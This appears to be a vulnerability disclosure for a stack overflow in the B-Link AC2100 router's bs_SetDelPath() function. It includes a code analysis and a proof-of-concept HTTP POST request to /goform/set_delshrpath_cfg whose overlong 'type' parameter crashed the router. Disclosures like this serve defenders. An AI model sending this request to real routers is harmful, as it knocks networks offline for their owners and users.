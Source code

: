 # BL-LINK AC2100 has stack overflow vulnerability.

Vendor: https://www.b-link.net.cn/

download：https://www.b-link.net.cn/download/BL-AC2100_AC10_OP(V1.0.3)%E5%8D%87%E7%BA%A7%E5%9B%BA%E4%BB%B6.html

Product：BLINK-AC2100

Version： v1.0.3

Vulnerability function：bs_SetDelPath() in libshare-0.0.26.so.

## describe

The Blink AC2100 router's Web management interface contains a serious vulnerability of denial-of-service vulnerability in the delshrpath function, which allows malicious attackers to remotely paralyze the network without requiring authentication throught http request.

## **Code analysis**    

In the so library of AC2100, the bs_SetDelPath function retrieves the type parameter, adds it to the json string, and calls strcpy(a2,a11), resulting in a stack overflow vulnerability. This vulnerability can be exploited to gain server privileges or cause a denial of service attack.
<img width="689" height="695" alt="Image" src="https://github.com/user-attachments/assets/488efee2-4977-414a-bb95-64625a4c6fa8" />


## POC

```
POST /goform/set_delshrpath_cfg HTTP/1.1
Host: 192.168.15.1
Content-Length: 2604
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.6261.112 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.15.1
Referer: http://192.168.15.1/admin/terminal.html
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: platform=0; user=admin
Connection: close

path=a&type=1*0x100
```

<img width="1472" height="753" alt="Image" src="https://github.com/user-attachments/assets/d489ba8b-8879-48dd-bd68-b97894fae011" />


**Result**

It caused the router and the network to crash.
